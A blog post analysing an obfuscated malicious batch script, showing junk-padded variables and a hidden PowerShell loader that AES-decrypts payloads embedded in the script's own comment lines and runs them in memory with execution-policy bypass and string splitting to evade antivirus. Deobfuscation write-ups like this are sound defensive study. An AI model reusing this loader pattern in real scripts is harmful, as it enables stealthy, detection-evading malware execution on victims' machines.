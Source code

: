 ```yaml
---
layout: post
title: Batch Script Obfuscation
subtitle: Obfuscation techniques seen in the wild
cover-img: /assets/img/honk.png
thumbnail-img: /assets/img/bat.png
share-img: /assets/img/bat.png
tags: []
---
```


Earlier this week, I was investigating a batch script that made its way onto someone's system. I enjoy deobfuscating files, so here are some things specific to (but maybe not exclusive to) batch file obfuscation that I saw.

Below is the first part of the batch file. Essentially what was going on was there was a bunch of junk data that was inserted between some variables / text. I replaced the real junk to make it more visible, but the original junk data was a lot more randomized and less apparent that it repeated. 
~~~
@echo off
set s=%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%s%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%e%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%t%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%l%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%o%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%c%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%a%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%l%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%
set e=%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%e%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%n%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%a%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%b%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%
set d=%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%l%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%e%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%d%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%e%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%l%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%a%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%y%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%e%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%d%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%
set x=%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%e%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%x%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%p%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%a%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%n%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%s%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%i%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%o%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%n%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%
set rah=%s% %e%%d%%x%
call %rah%
~~~

From there, if we trim it down, we get this

~~~
@echo off
set s=setlocal
set e=enab
set d=ledelayed
set x=expansion
set rah=s edx
call rah
~~~

Which further evaluates to

~~~
@echo off
setlocal enabledelayedexpansion
~~~

This was the first part of the obfuscation.


From here, it is obvious from the last line that there is something going on with powershell. If you also look at the top a bit, we also see **-noprofile -windowstyle hidden -ep bypass -command**, which is also very common in malicious powershell operations. Something else that is going on here, which is a key clue, is **[System.Security.Cryptography.Aes]::Create()**, which is a .NET constructor for creating AES-encrypted objects. So, the next section likely decrypts and runs a payload, but lets dive deeper first. Lastly, we some concatenated strings, aimed at evading static AV detection (**'S'+'ys'+'t'+'e'+'m'+'.E'+'nv'+'i'+'ro'+'n'+'me'+'n'+'t'**)

The dollar sign, **$**, denotes a variable in powershell. We see many more gibberish strings immediately preceded by the dollar signs, which means that the variables have been obfuscated. In this example, it is not through encoding or encryption, but rather their intention is obfuscated. It would be trivial for a computer to execute this code, but tough for a human to understand what is going on. From here, it is, at least in my experience, a game of guessing and renaming variables to what you think they might be. If you have no idea where to begin at guessing though, no problem! I find it good to just name things whatever, like var_1, var_2, and so on.

~~~
set "zsexdrzsexdrzsexdrzsexdrzsexdr=set"
set "bhunjibhunjibhunjibhunjibhunji=!zsexdrzsexdrzsexdrzsexdrzsexdr!"
!bhunjibhunjibhunjibhunjibhunji! "biEKBNtmaExERuKwsVMLBRoxNfgdBOZZfTeqnDLUczJcuRjyEOeuFpygzSomIwMJHSwaSolxpsaaYOpbrOAoyGSBUXFzabmcAHQJTBmedCbxRtefrpoVznryBpCfsoZqPRtcTGrFKZCPftRwdYOascUUJKqkhXdFsgRIQhdfqGYthaiRzKcwUswHzkjXLHmIsJQolrhgvItOJteTIbStFwpjudZXnyNKuHNmURTsdITjBRKyhxwzrHpgWLffJkOoRVGuSmreBkaVDlUziIhbNFFbbFylVuDeDwuwqThpzjeXIrMuXaAmorLmsWnaBQoFiImpGRAJVwtzRXXoFZcjaLMPMboQCcMSJWVFGsuZkAXbhxnGN=-noprofile -windowstyle hidden -ep bypass -command $unceunceunceunceunceunceunec = '%~f0';	$qwertyqwertyqwertyqwertyqwerty=[System.Security.Cryptography.Aes]::Create();		$qwertyqwertyqwertyqwertyqwerty.IV=[System.Convert]::FromBase64String('1JvmIAo8jn8Quu7BilO+6w==');	$qwertyqwertyqwertyqwertyqwerty.Padding=[System.Security.Cryptography.PaddingMode]::PKCS7;	$qwertyqwertyqwertyqwertyqwerty.Key=[System.Convert]::FromBase64String('9PVEPxhrf9bAPo5nbYothLVgwj9qp8wjNqedVM0sNJg=');		$qwertyqwertyqwertyqwertyqwerty.Mode=[System.Security.Cryptography.CipherMode]::CBC;function decrypt_function($param_var){	$asdfgasdfgasdfgasdfgasdfg=$qwertyqwertyqwertyqwertyqwerty.CreateDecryptor();	$yuiopyuiopyuiopyuiopyuiop=$asdfgasdfgasdfgasdfgasdfg.TransformFinalBlock($param_var, 0, $param_var.Length);	$yuiopyuiopyuiopyuiopyuiop;}function execute_function($param_var,$param2_var){	$ghjklghjklghjklghjklghjkl=[System.Reflection.Assembly]::Load([byte[]]$param_var);	$zxcvbzxcvbzxcvbzxcvbzxcvb=$ghjklghjklghjklghjklghjkl.EntryPoint;	$zxcvbzxcvbzxcvbzxcvbzxcvb.Invoke($null, $param2_var);}$host.UI.RawUI.WindowTitle = $unceunceunceunceunceunceunec;$njimkonjimkonjimkonjimkonjimko = [type]::GetType('Syst'+'e'+'m'+'.I'+'O.F'+'i'+'l'+'e');$cvbnmcvbnmcvbnmcvbnmcvbnm = [type]::GetType('S'+'ys'+'t'+'e'+'m'+'.E'+'nv'+'i'+'ro'+'n'+'me'+'n'+'t');$plokmplokmplokmplokmplokm = $njimkonjimkonjimkonjimkonjimko::ReadAllText($unceunceunceunceunceunceunec);$ytrewytrewytrewytrewytrew = $cvbnmcvbnmcvbnmcvbnmcvbnm::NewLine;$poiuypoiuypoiuypoiuypoiuy = $plokmplokmplokmplokmplokm.Split($ytrewytrewytrewytrewytrew);$jhgfdjhgfdjhgfdjhgfdjhgfd = $poiuypoiuypoiuypoiuypoiuy;foreach ($vgybhuvgybhuvgybhuvgybhuvgybhu in $jhgfdjhgfdjhgfdjhgfdjhgfd) {	if ($vgybhuvgybhuvgybhuvgybhuvgybhu.StartsWith(':: '))	{		$tfcrdxtfcrdxtfcrdxtfcrdxtfcrdx=$vgybhuvgybhuvgybhuvgybhuvgybhu.Substring(3);		break;	}}$payloads_var=[string[]]$tfcrdxtfcrdxtfcrdxtfcrdxtfcrdx.Split('\');$payload1_var= decrypt_function ([Convert]::FromBase64String($payloads_var[0]));$payload2_var= decrypt_function ([Convert]::FromBase64String($payloads_var[1]));execute_function $payload1_var $null;execute_function $payload2_var (,[string[]] ('%*'));"
!bhunjibhunjibhunjibhunjibhunji! "ckgMzaltivLxuGAeCevHMWWHEdYyKliYXvbInLefrxEmnhjvzletlABeTtxDfCRNHZEDcZpGxHioaPbbHebBYQXCZdICsBNzMFcpjRABMdjjcBhBWPfScDsKoNuCAcJGRlPirXRNXderAmpuF="%systemdrive%\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe" "
~~~

After some trial and error, and with the help of ChatGPT to guess some of the names, this is what i landed on

~~~
!delayed_var_2! "profile_var=-noprofile -windowstyle hidden -ep bypass -command $command = '%~f0';
$aesEncryptor=[System.Security.Cryptography.Aes]::Create();
$aesEncryptor.IV=[System.Convert]::FromBase64String('QUVTLUlW');
$aesEncryptor.Padding=[System.Security.Cryptography.PaddingMode]::PKCS7;
$aesEncryptor.Key=[System.Convert]::FromBase64String('QUVTLUtleQ==');
$aesEncryptor.Mode=[System.Security.Cryptography.CipherMode]::CBC;
function decrypt_function($param_var)
  {
  $decryptor = $aesEncryptor.CreateDecryptor();
  $decrypted_bytes = $decryptor.TransformFinalBlock($param_var, 0, $param_var.Length);
  $decrypted_bytes;
  }
function execute_function($param_var, $param2_var)
  {
  $assembly = [System.Reflection.Assembly]::Load([byte[]]$param_var);
  $entry_point = $assembly.EntryPoint;
  $entry_point.Invoke($null, $param2_var);
  }
$host.UI.RawUI.WindowTitle = $payloadFilePath;
$fileType = [type]::GetType('System.IO.File');
$envType = [type]::GetType('System.Environment');
$payloadFileContents = $fileType::ReadAllText($payloadFilePath);
$newline = $envType::NewLine;
$lines = $payloadFileContents.Split($newline);
$lineArray = $lines;
foreach ($line in $lineArray)
  {
  if ($line.StartsWith(':: '))
    {
    $payloadDataEncoded = $line.Substring(3);
    break;
    }
  }
!delayed_var_2! "unknown"%systemdrive%\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe" "
~~~

From here on out, i got a decryptor made from ChatGPT (Cyberchef's AES decrypt wasn't working well since it resulted in binary data).
This decryptor can be found here: https://github.com/khaansec/Black-Hat-Python/blob/cd6412b73bc699ac49acde2369c3f808c9d1f899/decrypt_aes_payload.py

This is the end of the obfuscation that i saw. A fun little project.
